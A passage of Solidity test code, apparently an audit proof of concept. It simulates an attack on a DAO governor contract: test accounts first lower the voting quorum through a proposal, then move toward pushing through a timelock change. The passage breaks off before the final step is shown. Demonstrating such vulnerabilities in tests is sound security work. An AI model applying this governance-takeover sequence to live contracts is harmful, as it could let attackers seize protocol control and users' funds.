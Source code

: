 ```Solidity

        hevm.warp(block.timestamp + 50);
        console2.log("Previous Timelock: ", address(timelockExecutor));

        // The first proposal which aims to update the timelock contract
        // which couldn't be passed due to not reaching the quorum

        hevm.startPrank(dead);

        (address[] memory t1, uint256[] memory v1, bytes[] memory c1, string memory d1) = craftChangeTimelockProposal();
        uint256 pid1 = governor.propose(t1, v1, c1, d1, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(dead);
        governor.castVote(pid1, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // execute
        hevm.startPrank(admin);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();

        // The second proposal which aims to change the acceptance quorum

        hevm.startPrank(beef);
        uint256 previousQuorum = governor.quorumNumerator();
        console2.log("Previous Quorum: ", previousQuorum);

        (address[] memory t2, uint256[] memory v2, bytes[] memory c2, string memory d2) = craftUpdateQuorumProposal();
        uint pid2 = governor.propose(t2, v2, c2, d2, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(beef);
        governor.castVote(pid2, 1);
        hevm.stopPrank();

        hevm.startPrank(dead);
        governor.castVote(pid2, 1);
        hevm.stopPrank();

        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period

        // execution of the last proposal
        hevm.startPrank(beef);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t2, v2, c2, keccak256(bytes(d2)), MAINNET);
        hevm.stopPrank();

        uint currentQuorum = governor.quorumNumerator();
        console2.log("Current Quorum:  ", currentQuorum);

        // The attacker now executes the proposal
```